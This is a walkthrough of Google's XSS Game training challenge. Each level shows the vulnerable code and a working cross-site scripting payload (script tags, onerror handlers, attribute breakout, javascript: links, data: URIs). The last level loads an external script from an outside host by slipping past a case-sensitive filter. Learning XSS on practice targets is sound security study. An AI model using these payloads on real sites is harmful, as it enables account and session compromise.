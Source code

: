 XSS Challenges
===================

XSS (Cross Side Scripting) Game located at https://xss-game.appspot.com/

Level 1: Hello, world of XSS
----------------

Very straight forward, the begginners XSS, by checking for scripts, they can be injected wherever a user can input information. 
```javascript
<script>alert(1);</script>
```

Level 2: Persistence is key
------------------
This time a basic script tag will not work, however there are other ways to invoke javascript. For instance, you can have an onerror trigger a function when an img is not found.

```javascript
<img src="foo.png" onerror="alert(1)" />
```

Level 3: That sinking feeling...
------------------
This next challenge is a bit more complicated as we can now only modify the URL itself, if we toggle the code on we can see where the hashtag data is processed. The particular line of interest is

```javascript
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

This line directly takes what is passed in the header to append to the img src tag, however we can manipulate the header such that it closes the source tag and creates an onerror attribute.

```
    https://xss-game.appspot.com/level3/frame#4.png' onerror="alert(1)"/>
```

Which will result in this
```javascript
<img src="/static/level3/cloud4.png" onerror="alert(1)">
```

```javascript
function chooseTab(num) {
  // Dynamically load the appropriate image.
  var html = "Image " + parseInt(num) + "<br>";
  html += "<img src='/static/level3/cloud" + num + ".jpg' />";
  $('#tabContent').html(html);

  window.location.hash = num;

  // Select the current tab
  var tabs = document.querySelectorAll('.tab');
  for (var i = 0; i < tabs.length; i++) {
    if (tabs[i].id == "tab" + parseInt(num)) {
      tabs[i].className = "tab active";
      } else {
      tabs[i].className = "tab";
    }
  }

  // Tell parent we've changed the tab
  top.postMessage(self.location.toString(), "*");
}
```
Level 4: Context matters
---------------------------
This  one was a bit more tricky as MVC was implemented to provide some structure, at first I tried a URL like 

```
    https://xss-game.appspot.com/level4/frame?timer=');alert('1
```

However, I eventully realized that the semicolon is not being parsed and if I pass the URL encoding of a semicolon it would work

```
    https://xss-game.appspot.com/level4/frame?timer=')%3Balert('1
```

Which results in this
```javascript
    <img src="/static/loading.gif" onload="startTimer('');alert('1');">
```

```html
<body id="level4">
  <img src="/static/logos/level4.png" />
  <br>
  <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
  <br>
  <div id="message">Your timer will execute in {{ timer }} seconds.</div>
</body>
```

Level 5: Breaking protocol
---------------------------------

At first this problem looks complicated, however it took me much less time now that I know to pass in URL encoded characters. After clicking sign-up, you see a page with a next href. The location to where this href goes to is entirely regulated by next=confirm, so this variable could be manipulated to make the link execute javascript.

```javascript
<a href="{{ next }}">Next >></a>
```

My method was 
```
    https://xss-game.appspot.com/level5/frame/signup?next=javascript%3Aalert(1)
```

Which turned the link to
```html
    <a href="javascript:alert(1)">Next &gt;&gt;</a>
```

Level 6: Follow the
------------------------

This one stumped me for quite a bit, I wanted to somehow get my javascript from babbage linked in, however the javascript checks for "http", so I couldn't figure out a solution.

I looked online and the solution was 
```
    https://xss-game.appspot.com/level6/frame#data:text/javascript,alert('XSS')
```
I found this solution lame as it didn't actually load external javascript persay. One thing I wanted to try is loading the javascript file through FTP which babbage does not seem to have.

All in all, I learned quite a bit in Cross Side Scripting attacks.

I facepalmed a few minutes after writing the previous bit
=================
The code only checks for lower case! 
```javascript
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```

So the real solution is 
```
    https://xss-game.appspot.com/level6/frame#hTtps://babbage.cs.missouri.edu/~ascp6/xss/alert.js
```
After even more reading, // is a equivalent to http, so this is also valid
```
    https://xss-game.appspot.com/level6/frame#//babbage.cs.missouri.edu/~ascp6/xss/alert.js
```
